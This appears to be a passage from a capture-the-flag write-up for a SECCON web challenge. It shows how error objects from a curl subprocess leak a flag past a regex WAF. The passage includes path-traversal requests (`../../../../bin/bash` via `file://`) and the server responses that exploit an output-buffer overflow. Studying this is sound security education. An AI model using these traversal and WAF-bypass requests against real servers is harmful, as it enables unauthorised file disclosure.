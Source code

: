 In this part, why is `JSON.stringify` used?
Are there cases that `ctx.body` is not `string`?

Yes.

If a subprocess causes an error, `ctx.body` becames the error object:
```javascript
  } catch (err) {
    ctx.body = err;
  }
```

E.g.:
```shell
$ http --path-as-is "http://localhost:3000/aaa"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 147
Content-Type: application/json; charset=utf-8
Date: Tue, 14 Feb 2023 17:04:58 GMT
Keep-Alive: timeout=5

{
    "cmd": "curl file:///app/public/aaa",
    "code": 37,
    "killed": false,
    "signal": null,
    "stderr": "curl: (37) Couldn't open file /app/public/aaa\n",
    "stdout": ""
}
```

If you can cause an error including a substring of a flag so that it don't match with `/SECCON{\w+}/`, you can avoid the WAF and get the substring in the response body.

Here, you need one idea: what would happen if the stdout of a subprocess is very very very large?

```shell
$ http --path-as-is "http://localhost:3000/../../../../bin/bash"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 2320247
Content-Type: application/json; charset=utf-8
Date: Tue, 14 Feb 2023 17:12:31 GMT
Keep-Alive: timeout=5

{
    "cmd": "curl file:///app/public/../../../../bin/bash",
    "code": "ERR_CHILD_PROCESS_STDIO_MAXBUFFER",
    "stderr": "  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current\n                                 Dload  Upload   Total   Spent    Left  Speed\n\r  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0",
    "stdout": "ELF\u0002\u0001\u0001\u0000\u0000\u0000...snip..."
}
```
